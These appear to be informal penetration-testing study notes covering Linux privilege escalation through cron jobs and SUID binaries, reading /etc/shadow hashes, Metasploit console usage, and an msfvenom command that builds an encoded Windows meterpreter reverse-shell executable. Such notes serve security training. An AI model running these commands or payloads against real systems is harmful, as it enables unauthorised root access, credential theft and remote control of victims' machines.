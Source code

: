 
*Linux privilege escalation*          

**sysinfo**     
**upload [linux-exploit suggester where you have it on your machine]** 
don’t forget to chmod it    
Then you execute it => you’ll get info + probable exploit you can use   
**crontab -l **     
**cat /etc/crontab**        
**grep -rnw /usr -e “/home/student/message”** in this exemple you can replace /usr by an other place  also after the -e option you have to put the directory where you find a file related to a CRON job        
Once you find the file you can modify you can for exemple add your group user to /etc/sudoers       
**file [SUID file]**    
**strings [SUID file]**     
**cp /bin/bash [file]** 

prefix      
$1 MD5      
$2 Blowfish     
$5 SHA-256      
$6 SHA-512      
cat /etc/shadow     
hashdump module on metasploit       

``Metaspoit``      

**sudo systemctl start postgresql**     
**sudo systemctl status postgresql** to check       
**sudo msfdb init**     
**msfconsole**      

**set [variable]** for local variables      
**setg [variable]** for global variables        
Variable can be LPORT, RHOST, etc……     
**search [what_you_search]** for searching a tool       
**search type:auxiliary [what you’re looking for]**     
**use [number/path of the module]** to use what you found       
**show options** to check all options of the modules you selected       
**info**    
**run** or **exploit** once all is setup 
**back** command to go back to the original thing   
**sessions** to see all sessions active         
**connect [IP:PORT]** is like netcat for netcat grabbing to get the banner
hosts to see all hosts we have      

**db_nmap -sS -sV -O [IP]** for nmap scan within Metasploit     
How to see difference between staged and non-staged? If you have a / between the method and the protocol at the end => this a staged payload 
example;        
/meterpreter/reverse_http => staged     
/meterpreter_reverse_http => non-staged     

https://www.revshells.com/ (MSFVenom part)      
**msfvenom -a x86 -p /windows/meterpreter/reverse_tcp LHOST=your_ip LPORT=the_open_port -f exe > payload.exe**      
-a architecture like x86        
-p OS type and protocol     
LHOST listening host        
LPORT listening port on your machine        
-f format version (here it’s a exe file we want)        
the -a options is not mandatory as you can put it in the -p
To encode it’s an option at the end of the command -e [your encoding option]        
-e x86/shikata_ga_nai       
-i [number] number of iterations        
Don’t forget to set PAYLOAD [same as your msfvenom] in the Metasploit       handler. 
